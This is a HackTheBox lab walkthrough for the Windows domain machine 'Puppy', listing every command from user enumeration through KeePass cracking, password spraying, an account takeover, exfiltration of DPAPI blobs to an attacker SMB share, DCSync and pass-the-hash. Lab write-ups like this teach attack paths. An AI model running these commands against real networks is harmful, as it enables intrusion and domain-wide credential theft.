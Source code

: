# Puppy
```
Difficulty: Medium
Operating System: Windows
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--


### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | `levi.james` | Nmap, `rpcclient`, `smbmap`, BloodHound | Initial enumeration of open ports, user accounts, and shares. Identified a restricted `DEV` share. |
| 2 | `levi.james` | `bloodyAD` (Group Membership) | Added `levi.james` to the `DEVELOPERS` group, gaining access to the `DEV` share. |
| 3 | `levi.james` | SMB, KeePass Brute-Force | Downloaded a `recovery.kdbx` file from the `DEV` share and used a brute-force attack to crack the password (`liXXXXool`). |
| 4 | (Local) | KeePass Extraction | Extracted various credentials, including passwords for `ant.edwards` (`AnXXXX25!`) and `steph.cooper` (`ChXXXXXX25!`). |
| 5 | `ant.edwards` | `netexec` (Password Spray) | Verified that `ant.edwards` and the cracked password were valid credentials. |
| 6 | `ant.edwards` | BloodHound (ACL Analysis) | Used BloodHound to discover an ACL misconfiguration giving `ant.edwards` full control over the `adam.silver` user object. |
| 7 | `ant.edwards` | `bloodyAD` (Password Reset) | Attempted to reset `adam.silver`'s password, but the account was disabled. |
| 8 | `ant.edwards` | `ldapsearch`, `ldapmodify` | Used LDAP tools to re-enable `adam.silver`'s account. |
| 9 | `adam.silver` | `Evil-WinRM`, SMB | Logged in as `adam.silver` via WinRM and downloaded a `site-backup-2024-12-30.zip` file from the host. |
| 10 | (Local) | File Analysis | Discovered the password for `steph.cooper` in the site backup file. |
| 11 | `steph.cooper` | `Evil-WinRM`, `impacket-smbserver`, `impacket-dpapi` | Connected via WinRM, used a malicious SMB server to retrieve DPAPI data, and then used `impacket-dpapi` to decrypt the master key and extract the credentials for `steph.cooper_adm`. |
| 12 | `steph.cooper_adm` | `impacket-secretsdump` (DCSync) | Exploited the `steph.cooper_adm` credentials, which had DCSync privileges, to dump NTLM hashes for all domain accounts, including the `Administrator`. |
| 13 | `Administrator` | `Evil-WinRM` (Pass-the-Hash) | Used the `Administrator`'s NTLM hash with a pass-the-hash attack via `Evil-WinRM` to gain a privileged shell and retrieve the final flag. |


#### Nmap Scan
First, we perform an Nmap scan to identify open ports and services on the target puppy.htb.

Bash
```
nmap puppy.htb -sV
```
The scan reveals several open ports, including 53 (DNS), 88 (Kerberos), 135 (MSRPC), 139 (NetBIOS), 389 (LDAP), 445 (SMB), and 5985 (WinRM HTTP), indicating a Windows Active Directory environment.

Enumerating Users with rpcclient
Using the provided levi.james credentials, we attempt to enumerate domain users via rpcclient.

Bash
```
rpcclient 10.xx.xx.xx -U levi.james
```
After authenticating, we use enumdomusers to list users:

rpcclient $> enumdomusers
This successfully lists several users, including Administrator, Guest, krbtgt, levi.james, ant.edwards, adam.silver, jamie.williams, steph.cooper, and steph.cooper_adm.

SMB Share Enumeration with smbmap
Next, we use smbmap to enumerate accessible SMB shares on the target.

Bash
```
smbmap -H 10.xx.xx.xx -u levi.james -p 'KingofAkron2025!'
```
The output shows several shares. Notably, the DEV share is listed but currently inaccessible with NO ACCESS. We also see IPC$, NETLOGON, and SYSVOL with READ ONLY permissions.

Bloodhound for Initial Reconnaissance
To understand the Active Directory structure and identify potential attack paths, we'll use BloodHound. Before running BloodHound, we add dc.puppy.htb to /etc/hosts and synchronize the time.

Bash
```
ntpdate puppy.htb
```
Then, we collect data with bloodhound-python:

Bash
```
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
![Shares](Pictures/HTB_Puppy_ADHR.png)

Gaining Access to the DEV Share

![Access](Pictures/HTB_Puppy_ADHR_Dev.png)


Analyzing the BloodHound data, we find that the levi.james user has write permissions to the DEVELOPERS group. This is a crucial finding, as gaining membership in this group might grant access to the DEV share.

We use bloodyAD to add levi.james to the DEVELOPERS group:

Bash
```
bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```
With levi.james added to the DEVELOPERS group, we can now access the DEV share using smbclient.

Bash
```
smbclient //10.xx.xx.xx/DEV -U levi.james
```
Listing the contents of the DEV share, we find recovery.kdbx, which appears to be a KeePass database.

Privilege Escalation (KeePass Brute-Force)
We've found a KeePass database, which likely contains valuable credentials. Our next step is to brute-force its password.

Cracking recovery.kdbx
We first try to use keepass2john to convert the .kdbx file into a hash format suitable for John the Ripper, but it reports an unsupported file version.

Bash
```
keepass2john recovery.kdbx
```
Instead, we turn to r3nt0n/keepass4brute, a tool specifically designed for KDBX 4.x formats. We use it with the rockyou.txt wordlist.

Bash
```
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt
```
The brute-force is successful, and the password for recovery.kdbx is found to be **liv....ol**.

Extracting Credentials from KeePass
We open recovery.kdbx using keepassxc and extract several password values:

HJ...025!

Antma...25!

JamieL..e2025!

IL...25!

St.....25!

Privilege Escalation (Credential Reuse & Account Manipulation)
With a list of new passwords, we can attempt to reuse them against various user accounts to gain higher privileges.

Password Spraying with netexec
We perform a password spray attack using netexec against the identified usernames and the extracted passwords.

Bash

```
netexec smb 10.xx.xx.xx -u usernames.txt -p pass.txt
```
The password spray reveals a successful login: ant.edwards/Antman2025!.

Bloodhound with ant.edwards
We collect BloodHound data again, this time with the newly compromised ant.edwards credentials.

Bash
```
bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
Analysis of the BloodHound results indicates that the group ant.edwards is a member of has full control over the adam.silver user object. This is a significant finding, as it allows us to reset adam.silver's password.

Resetting adam.silver's Password
We use bloodyAD to change adam.silver's password.

Bash
```
bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Abc123456!
```
Although the password change is reported as successful, we are unable to log in with adam.silver.

Enabling adam.silver's Account
We investigate the adam.silver account using ldapsearch to determine why login is failing.

Bash
```
ldapsearch -x -H ldap://10.xx.xx.xx -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```
The output reveals userAccountControl: 66050, which signifies that the account is disabled.

To enable the account, we modify the userAccountControl attribute using ldapmodify. The value 66048 represents an enabled account.

Bash
```
ldapmodify -x -H ldap://10.xx.xx.xx -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
```
![Flag](Pictures/HTB_PUPPY_USER.png)
### Privilege Escalation (Backup Files & DPAPI)

With adam.silver's account now enabled, we can proceed to look for further privilege escalation opportunities.

Investigating Backups
We connect to the target using evil-winrm with adam.silver's credentials.

Bash
```
evil-winrm -i 10.xx.xx.xx -u 'ADAM.SILVER' -p 'Abc123456!'
```


Once connected, we check the C:\Backups directory and find a site-backup-2024-12-30.zip file.

PowerShell
```
ls C:\Backups
```
We download the backup file to our Kali machine.

PowerShell
```
download site-backup-2024-12-30.zip
```
Upon decompressing the zip file, we discover nms-auth-config.xml.bak, which contains the credentials for steph.cooper: Chef......025!.

Bash
```
cat nms-auth-config.xml.bak
```
Bloodhound with steph.cooper
We collect BloodHound data again using steph.cooper's credentials.

Bash
```
bloodhound-python -u 'steph.cooper' -p 'ChefSteph2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
The BloodHound results don't immediately reveal any obvious paths to domain administrator. This suggests a different approach might be needed.

DPAPI Decryption
Recalling a previously seen DPAPI blob on adam.silver's desktop, we decide to investigate steph.cooper's DPAPI credentials. Windows Credential Manager stores credentials encrypted with DPAPI, which requires the user's master key.

We locate the DPAPI credentials and master key blobs for steph.cooper.

PowerShell
```
dir -h C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials
dir -h C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
```
Direct download of these files may cause issues, so we set up an impacket-smbserver on our Kali machine to receive the files.

Bash
```
impacket-smbserver share ./share -smb2support
```
Then, from the evil-winrm shell, we copy the masterkey_blob and credential_blob to our SMB share.

PowerShell
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.75\share\masterkey_blob
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.75\share\credential_blob
```
Now, we use impacket-dpapi to decrypt the master key using steph.cooper's password and SID.

Bash
```
impacket-dpapi masterkey -file masterkey_blob -password 'Ch......2025!' -sid S-1-5-21-1487982659-...........-2281216199-1107
```
This command outputs the decrypted master key.

Finally, we use the decrypted master key to decrypt the credential_blob, which reveals the plaintext credentials.

Bash
```
impacket-dpapi credential -file credential_blob -key 0xd9a5707.....................91b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```
This successfully extracts the password for steph.cooper_adm: FivethC..........2025!.

Domain Dominance
We now have the credentials for steph.cooper_adm, which is a likely candidate for a highly privileged account.

Bloodhound with steph.cooper_adm
We run BloodHound one last time with the steph.cooper_adm credentials.

Bash
```
bloodhound-python -u 'steph.cooper_adm' -p 'Fiveth.............025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
While the BloodHound output might not immediately show a direct path, the name steph.cooper_adm strongly suggests administrative privileges.

DCSync with impacket-secretsdump
Given the administrative nature of steph.cooper_adm, we attempt a DCSync attack using impacket-secretsdump to extract NTLM hashes of all domain accounts, including the Administrator account.

Bash
```
impacket-secretsdump 'puppy.htb/steph.cooper_adm:Fivet................2025!'@10.xx.xx.xx
```
This command successfully dumps the NTLM hashes for all domain users, including the Administrator account.

Final Access as Administrator
With the Administrator NTLM hash, we can now use evil-winrm to gain a shell as the Administrator and retrieve the root.txt flag.

Bash
```
evil-winrm -i 10.xx.xx.xx -u 'Administrator' -H '<HIDDEN_ADMIN_HASH>'
cd ../desktop
cat root.txt
```
![Flag](Pictures/HTB_PUPPY_ROOT.png)
Once connected, navigate to the desktop and retrieve the flag
This completes the penetration test, gaining full control of the domain.




**Pwned! Puppy**



-->